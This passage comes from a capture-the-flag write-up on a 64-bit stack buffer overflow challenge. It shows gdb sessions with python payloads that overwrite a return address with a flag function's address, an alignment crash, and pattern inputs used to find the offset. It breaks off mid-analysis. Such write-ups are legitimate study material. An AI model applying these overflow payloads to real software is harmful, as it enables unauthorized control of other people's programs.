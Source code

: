 ```bash
-rwxr-x---     1 samson samson   8880 Jan 14 03:22 vuln
SAMCTF{NOT_THE_ACTUAL_FLAG}
```

Let's use the address of the flag again.

```bash
samson@pico-2019-shell1:~$ gdb ./vuln 
... <redacted>
(gdb) r < <(python -c "print('A'*72+'\x4D\x08\x40'+'\x00'*5)")
Starting program: /home/samson/vuln < <(python -c "print('A'*72+'\x4D\x08\x40'+'\x00'*5)")
Welcome to 64-bit. Can you match these numbers?

Program received signal SIGSEGV, Segmentation fault.
buffered_vfprintf (s=s@entry=0x7ffff7dd0760 <_IO_2_1_stdout_>, format=format@entry=0x7fffffffe418 "SAMCTF{NOT_THE_ACTUAL_FLAG}\n", args=args@entry=0x7fffffffe338) at vfprintf.c:2314
2314    vfprintf.c: No such file or directory.
```

Damn, it's an alignment error, but unlike NewOverflow-1, we can't just increment the adddress by one or a few to be divisble by `16`.

What to do...

```
(gdb) r < <(python -c 'print("A"*64+"B"*4+"C"*4+"D"*4+"E"*4+"F"*4+"G"*4+"H"*4+"I"*4)')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/samson/vuln < <(python -c 'print("A"*64+"B"*4+"C"*4+"D"*4+"E"*4+"F"*4+"G"*4+"H"*4+"I"*4)')
Welcome to 64-bit. Can you match these numbers?

Program received signal SIGSEGV, Segmentation fault.
0x00000000004008cd in vuln ()
(gdb) x/i $pc
=> 0x4008cd <vuln+27>:  retq   
(gdb) display/i $pc
1: x/i $pc
=> 0x4008cd <vuln+27>:  retq   
(gdb) b *flag+27


(gdb) r < <(python -c 'print("A"*64+"B"*4+"C"*4+"D"*4+"E"*4+"F"*4+"G"*4+"H"*4+"I"*4)')
Starting program: /home/samson/vuln < <(python -c 'print("A"*64+"B"*4+"C"*4+"D"*4+"E"*4+"F"*4+"G"*4+"H"*4+"I"*4)')
Welcome to 64-bit. Can you match these numbers?

Program received signal SIGSEGV, Segmentation fault.
0x00000000004008cd in vuln ()
1: x/i $pc
=> 0x4008cd <vuln+27>:  retq   
(gdb) f
#0  0x00000000004008cd in vuln ()
(gdb) bt
#0  0x00000000004008cd in vuln ()
#1  0x4545454544444444 in ?? ()
#2  0x4747474746464646 in ?? ()
#3  0x4949494948484848 in ?? ()
#4  0x00007fffffffe500 in ?? ()
#5  0x000077b700000000 in ?? ()
#6  0x0000000000400940 in ?? ()
#7  0x00007ffff7a05b97 in __libc_start_main (main=0x4008ce <main>, argc=1, argv=0x7fffffffe578, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffe568) at ../csu/libc-start.c:310
#8  0x00000000004006aa in _start ()
```